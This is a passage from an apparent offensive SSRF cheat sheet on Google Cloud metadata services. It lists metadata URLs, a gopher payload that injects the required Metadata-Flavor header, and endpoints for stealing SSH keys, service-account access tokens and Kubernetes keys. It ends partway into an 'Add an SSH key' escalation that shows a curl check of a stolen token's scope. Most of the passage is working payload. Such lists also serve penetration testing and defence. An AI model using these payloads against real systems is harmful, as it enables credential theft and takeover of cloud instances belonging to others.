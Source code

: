 Docs: https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html#runtimes-api-next

### SSRF URL for Google Cloud

:warning: Google is shutting down support for usage of the **v1 metadata service** on January 15.

Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"

```powershell
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

Google allows recursive pulls

```powershell
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```

Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/
http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
```

Required headers can be set using a gopher SSRF with the following technique

```powershell
gopher://metadata.google.internal:80/xGET%20/computeMetadata/v1/instance/attributes/ssh-keys%20HTTP%2f%31%2e%31%0AHost:%20metadata.google.internal%0AAccept:%20%2a%2f%2a%0aMetadata-Flavor:%20Google%0d%0a
```

Interesting files to pull out:

- SSH Public Key : `http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json`
- Get Access Token : `http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token`
- Kubernetes Key : `http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json`

#### Add an SSH key

Extract the token

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json
```

Check the scope of the token

```powershell
$ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA  

{ 
        "issued_to": "101302079XXXXX", 
        "audience": "10130207XXXXX", 
        "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write https://www.googleapis.com/auth/monitoring", 
        "expires_in": 2443, 
        "access_type": "offline" 
}
```
